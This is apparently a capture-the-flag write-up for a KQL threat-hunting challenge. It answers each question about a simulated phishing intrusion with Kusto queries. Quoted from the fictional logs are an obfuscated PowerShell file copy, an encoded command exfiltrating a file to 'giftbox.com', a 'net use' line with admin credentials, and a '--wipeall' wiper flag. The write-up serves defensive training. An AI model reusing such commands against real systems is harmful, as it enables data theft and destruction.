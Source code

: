 # Objective 13: KQL Kraken Hunt
**Location: Film Noir Island: Gumshoe Alley PI Office**  
**Hints provided by Tangle Coalbox**

The aim of this objective is to get familiar with the Kusto platform and the KQL language, which is in total similar to Splunk.

### Onboarding:  
How many Craftperson Elf’s are working from laptops?

`Employees | where role=="Craftsperson Elf" | where hostname contains "LAPTOP"`

**25**

### Case 1:  
What is the email address of the employee who received this phishing email?

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | join (Employees) on $left.src_ip==$right.ip_addr | project email_addr`

**alabaster_snowball@santaworkshopgeeseislands.org**

What is the email address that was used to send this spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project sender`

**cwombley@gmail.com**

  

  

  

What was the subject line used in the spear phishing email?

`Email | where recipient=="alabaster_snowball@santaworkshopgeeseislands.org" | where link=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project subject`

**[EXTERNAL] Invoice foir reindeer food past due**

  

### Case 2:

What is the role of our victim in the organization?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project role`

**Head Elf**

  

What is the hostname of the victim's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname`

**Y1US-DESKTOP**

  

What is the source IP linked to the victim?

Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project ip_addr

10.10.0.4

  

### Case 3:

What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

`OutboundNetworkEvents | where url=="http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx" | project timestamp`

**2023-12-02T10:12:42Z**

  

What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join FileCreationEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project filename`

**giftwrap.exe**

  

  

### Case 4:  
The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project process_commandline`

**113.37.9.17**

  

What is the timestamp when the attackers enumerated network shares on the machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | project timestamp,process_commandline`

**2023-12-02T16:51:44Z** → `net share` command

  

What was the hostname of the system the attacker moved laterally to?

**NorthPolefileshare**  → `"process_commandline": cmd.exe /C net use \\NorthPolefileshare\c$ /user:admin AdminPass123)` command

  

### Case 5:

  

When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

**2023-12-24T16:07:47Z**

  

What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

The command executed at the above timestamp is:

`( 'txt.tsiLeciNythguaN\potkseD\:C txt.tsiLeciNythguaN\lacitirCnoissiM\$c\erahselifeloPhtroN\\ metI-ypoC c- exe.llehsrewop' -split '' | %{$_[0]}) -join ''`

The filename has to be reversed using `echo txt.tsiLeciNythguaN | rev`

**NaughtyNiceList.txt**

  

The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

The activity was performed at 2023-12-24T16:58:43Z.
Base64 decoding leads to:  
`[StRiNg]::JoIn( '', [ChaR[]](100, 111, 119, 110, 119, 105, 116, 104, 115, 97, 110, 116, 97, 46, 101, 120, 101, 32, 45, 101, 120, 102, 105, 108, 32, 67, 58, 92, 92, 68, 101, 115, 107, 116, 111, 112, 92, 92, 78, 97, 117, 103, 104, 116, 78, 105, 99, 101, 76, 105, 115, 116, 46, 100, 111, 99, 120, 32, 92, 92, 103, 105, 102, 116, 98, 111, 120, 46, 99, 111, 109, 92, 102, 105, 108, 101))|& ((gv '*Mdr*').NamE[3,11,2]-joiN`

This is the decimal representation of the ASCII string `downwithsanta.exe -exfil C:\\Desktop\\NaughtNiceList.docx \\giftbox.com\file`

**giftbox.com**
  

  

### Case 6:

What is the name of the executable the attackers used in the final malicious command?

`Employees | where email_addr =="alabaster_snowball@santaworkshopgeeseislands.org" | project hostname | join ProcessEvents on $left.hostname==$right.hostname | where timestamp>=datetime("2023-12-02T10:12:42Z") | where process_commandline contains "PowerShell" | project timestamp,process_commandline`

The activity can be found at 2023-12-25T10:44:27Z.

**downwithsanta.exe**

  

What was the command line flag used alongside this executable?

**--wipeall**

  

  
### Well done!

We are provided with the below command to be executed in the KQL prompt:

`print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')`

**Beware the Cube that Wombles**

**Achievement: KQL Kraken Hunt**
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDU3MjA2NzA0LC0yMDEwMTkyNjNdfQ==
-->